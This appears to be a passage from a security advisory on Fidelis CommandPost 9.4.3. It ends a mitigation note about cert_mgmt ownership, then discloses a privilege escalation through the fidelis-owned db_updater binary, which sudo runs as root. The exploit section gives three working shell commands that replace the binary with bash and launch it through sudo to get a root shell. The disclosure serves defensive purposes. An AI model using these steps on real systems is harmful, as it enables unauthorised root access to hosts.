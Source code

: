 #### Mitigation:
Changing the user and group owners of /FSS/setup/cert_mgmt to root:fidelis and only allowing read and execute permissions to the group owner of /FSS/setup/cert_mgmt would mitigate this vulnerability:

![](images/cert_mgmt_mitigation.png)

## db_updater Authenticated Privilege Escalation
**Tested on:**
* Fidelis CommandPost 9.4.3

#### Summary:
Misconfigured ownership permissions on /FSS/bin/db_updater allow the fidelis user to escalate privileges equivalent to the root user in Fidelis CommandPost. By default, the sudoers configuration allows the fidelis user to execute /FSS/bin/db_updater as the root user if a password is supplied. The file is owned by the fidelis user, allowing the fidelis user to arbitrarily modify the binary and escalate privileges.

#### Exploit:
1. Change permissions to allow modification of the db_updater file:
```bash
$ chmod u+w /FSS/bin/db_updater
```
2. Change the file as needed to execute arbitrary code or, in this example, spawn a shell:
```bash
$ cp /bin/bash /FSS/bin/db_updater
```
3. Launch the file using the sudo command and authenticate with the fidelis user password:
```bash
$ sudo /FSS/bin/db_updater
```
